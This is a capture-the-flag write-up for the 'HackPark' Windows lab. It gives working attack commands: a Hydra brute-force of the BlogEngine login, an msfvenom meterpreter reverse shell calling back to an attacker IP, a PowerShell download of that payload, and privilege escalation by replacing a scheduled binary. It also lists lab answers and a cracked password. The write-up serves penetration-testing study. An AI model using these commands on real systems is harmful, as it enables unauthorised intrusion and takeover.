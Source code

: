 # HackPark

> Nashia Holloway | May 2nd 2020

## Task 1 Deploy

**2. What's the name of the clown displayed on the homepage?**

```
Pennywise
```

## Task 2 Using Hydra to Brute-Force a Login

The login page is located at `http://$IP/Account/login.aspx?ReturnURL=/admin/` 

**1. What request type is the Windows website login form using?**

```
POST
```

**2. Use Hydra to bruteforce the login. What is the password?**

We use `admin` as the username and use a wordlist to brute-force the password.

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.104.218 http-post-form "/Account/login.aspx?ReturnRUL=/admin:__VIEWSTATE=M8wswOR4ZainhZGJXbBkESyeeoLj6xy%2B%2BK9XvsOXIA8neNAbPsStGmz7IFndSF6pmzKwiiH0puuStmdQgCeAVOa9TdYMyXNh0f2qL7CfIMfzi0EmlPr2dMt029ggPgYWRYpH3Q83EdxJ04MOF%2Bmz0w3nTS894VH%2BsyKYfuoX4iqN5S7QtKek6Uha1Tu6CJazDjwqmbwFO7lMfBYHtY%2FQz7%2FL0n%2BA5lOuavdb7Mld8wjcO3AgZRTiQ3mChNBKhcGoATu2QqtQTca9hhI4qPteSLn%2B83KaY1GI6eAMGL0Zsw1bDzfIf1izwpgHPfaHg1myRUs9IpAcjBFnfG2amOiWzgQCdAHv%2B2uCux8s0M%2F6Cz6OfYqh&__EVENTVALIDATION=Fy1OHAR8bWB5XuX2mus2R0CgFC0HcUrdhY%2FCFeWMd78mkVHoFWVyogl7HWxcRNUABQk9Aj%2BAT%2BjtlYh0LmKwuEGfw3cLFaV10FVhf%2BO6qUdI9EtYQCn5yyZrIIfpuy4HxreQNDEMfTLd7BYIeFoqQgToXCwHPCJkXL4Hki%2BrJ7zMBXBA&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed"
```
Within the quotation marks, the `/Account/login/aspx?ReturnURL=/admin` was taken from the URL with attempting to login with `admin:admin`. After the colon is the cookie intercepted by Burpsuite when attempting to login. Towards the end of the string, we have to include `^USER^` and `^PASS^`, and after the last colon, include `Login Failed`. The password is `1qaz2wsx`.

## Task 3 Compromise The Machine

**1. What version of blogengine is running?**

Upon logging in, navigating to the About page reveals the blogengine version running: `3.3.6.0`.

**2. What is the CVE?**

```
CVE-2019-6714
```

**3. Who is the webserver running as?**

Following the instructions in the exploit comments, we get a shell after setting up a netcat listener and navigating to the URL specified.

```
whoami
iis apppool\blog
```

## Task 4 Windows Privilege Escalation

**1. Generate a reverse shell with msvenom.**

Generate exploit
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.4.248 LPORT=9001 -f exe > shell.exe
```

With our existing shell on the box, pull it down with a PowerShell command (must start python server locally first).

```
powershell -c "Invoke-WebRequest -Uri 'http://10.11.4.248:8000/shell.exe' -OutFile 'C:\Windows\Temp\shell.exe'"
```

Start metasploit and set up listner.

```
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST tun0
set LPORT <port set when generating exploit>
run
```

On the victim machine, start `shell.exe` process

```
Start-Process "shell.exe"
```

We now have a meterpreter session.

**2. What is the OS version?**

```
sysinfo
```

**3. What is the name of the abnormal _service_ running?**

Look at all the running processes, we see there is a scheduler, meaning something is being scheduled. Navigate to `C:\Program Files (x86)\SystemScheduler\Events` and cat `20198415519.INI_LOG.txt` to see what is being scheduled, which is `Message.exe`.

The abnorma service running isn't "abnormal", but it's WScheduler.exe, and the answer is `WindowsScheduler.exe` for some reason.

**4. What is the name of the binary to exploit?**

```
Message.exe
```

**5. Using the service, elevate privs. What is the user flag?**

Download the shell.exe file to `C:\Program Files (x86)\SystemScheduler` and rename Message.exe to Message.bak to keep a copy, then rename shell.exe to MAeeage.exe. Make sure a listener is ready for the callback. With our new shell, we have system privs. The user flag is located in `C:\Users\jeff\Desktop`.

**6. What is the root flag?**

The root flag is located in `C:\Users\Administrator\Desktop`.

## Task 5 Priv Esc Without Metasploit

We can do the same thing without metasploit by just creating a payload with `windows/shell_reverse_tcp` and listening for it with netcat.

**3. What was the original install time?**

Wasn't sure what install time was referring to, so I checked Install time of Message.exe, which didn't match the answer. I then checked the OS install time.

```
systeminfo | find /i "original"
```

